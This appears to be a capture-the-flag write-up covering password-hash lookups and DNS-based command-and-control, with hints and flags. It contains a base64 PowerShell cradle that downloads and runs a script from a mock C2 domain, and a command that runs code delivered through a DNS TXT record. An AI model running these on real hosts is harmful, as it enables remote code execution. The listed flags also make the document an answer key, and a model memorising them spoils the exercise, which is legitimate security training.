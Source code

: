 This script will give you the answer (assuming all of the hashes are in /tmp/hashes.txt):

#!/bin/bash

for i in $(cat /tmp/hashes.txt); do curl -s https://api.pwnedpasswords.com/range/${i:0:5} | grep -i ${i:5:35} | tr -d '\r' | awk -v hash=$i -F ':' '{print hash " : " $2 " hits";}' ; done;

**Flag: 6b283bb060c269432d08ac33b47a337c0a40035d **

________________________________________________________________________________________________
________________________________________________________________________________________________
________________________________________________________________________________________________
# Objective: DNS  
________________________________________________________________________________________________

## C2 - ANSWERED BY YOU A DAY AGO 10 POINTS
The Wildlings set up a domain at totallynotc2.tk to set up... you guessed it... C2-related DNS records. There is a record at firstmen.totallynotc2.tk that is interesting. What is the data stored in that record? The answer is a base64-encoded string as presented in the DNS record, without any enclosing quotes.
Hints:
Use dig.
Use dig -t any firstmen.totallynotc2.tk to retrieve any records associated with the domain.
The TXT record contains a base64-encoded string.

**Flag: LgAgAHsAIABpAHcAcgAgAC0AdQBzAGUAYgAgAGgAdAB0AHAAcwA6AC8ALwByAGEAdgBlAG4AcwAuAHQAbwB0AGEAbABsAHkAbgBvAHQAYwAyAC4AdABrAC8AcwBlAHQAdQBwAC0AYwAyAC4AcABzADEAIAB9AAoA **
________________________________________________________________________________________________

## POWERSHELL - ANSWERED BY YOU A DAY AGO 10 POINTS 1 INCORRECT ATTEMPT
If the following command were executed on a Windows host, which IP address will the machine attempt to download a file from?
powershell -e $((Resolve-DnsName -Type txt firstmen.totallynotc2.tk).Strings)
Hints:
The system will run whatever is returned from that TXT record DNS query.
dig -t txt firstmen.totallynotc2.tk
Then decode the base64. Type the following as one line, with a space between echo and the base64 string:
echo LgAgAHsAIABpAHcAcgAgAC0AdQBzAGUAYgAgAGgAdAB0AHAAcwA6AC8ALwByAGEAdgBlAG4AcwAuAHQAbwB0AGEAbABsAHkAbgBvAHQAYwAyAC4AdABrAC8AcwBlAHQAdQBwAC0AYwAyAC4AcABzADEAIAB9AAoA | base64 -d
Type the following in the Cyber Defense Netwars Linux VM:
dig -t a ravens.totallynotc2.tk

**Flag: 35.199.9.215 **

________________________________________________________________________________________________

## NAMESERVER - ANSWERED BY YOU A DAY AGO 10 POINTS 1 INCORRECT ATTEMPT
What is the IPv6 address of the UK-based, authoritative nameserver for totallynotc2.tk? Answer in the full IPv6 address (NO SHORTHAND).
